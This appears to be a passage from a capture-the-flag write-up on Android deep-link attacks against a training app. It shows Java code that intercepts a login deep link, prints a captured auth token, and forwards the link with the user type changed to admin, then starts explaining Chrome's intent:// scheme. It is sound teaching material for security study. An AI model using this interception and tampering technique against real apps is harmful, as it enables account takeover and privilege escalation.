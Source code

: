 
Let's analyse the deep link sent by the browser when the user clicks on the 'Connect' button.

```java
Intent intent = getIntent();
if (intent != null) {
    Uri data = intent.getData();
    if (data != null) {
        Log.d("Data", data.toString());
```

```
hex://token?authToken=598cc075e4379d027f61c02866917c6f1d992c67&type=user&authChallenge=32803714-576f-4189-a3ea-ff8736f78759
```

Great, we successfully stole the login information.

However, to get the flag, we need to execute the `success()` method by sending the intent to our legitimate application and changing the user type from `user` to `admin`.

```java
Intent intent = getIntent();
if (intent != null) {
    Uri data = intent.getData();
    if (data != null) {

        Intent intent2 = new Intent();
        intent2.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag14Activity"));
        intent2.setAction("android.intent.action.VIEW");

        String authToken = data.getQueryParameter("authToken");
        String authChallenge = data.getQueryParameter("authChallenge");

        Uri uri = Uri.parse("hex://token?" +
                "authToken=" + authToken +
                "&type=admin" +
                "&authChallenge=" + authChallenge
        );
        intent2.setAction("android.intent.action.VIEW");
        intent2.setData(uri);
        startActivity(intent2);
    }
```

---

## Generic Chrome intent: Scheme

The `intent://` scheme is a specialized URI format used within Chrome for Android to allow web pages to trigger an Android Intent. This mechanism is primarily used for deep linking to launch a specific native Android application or an Activity within an app directly from a web page.

**How it Works**
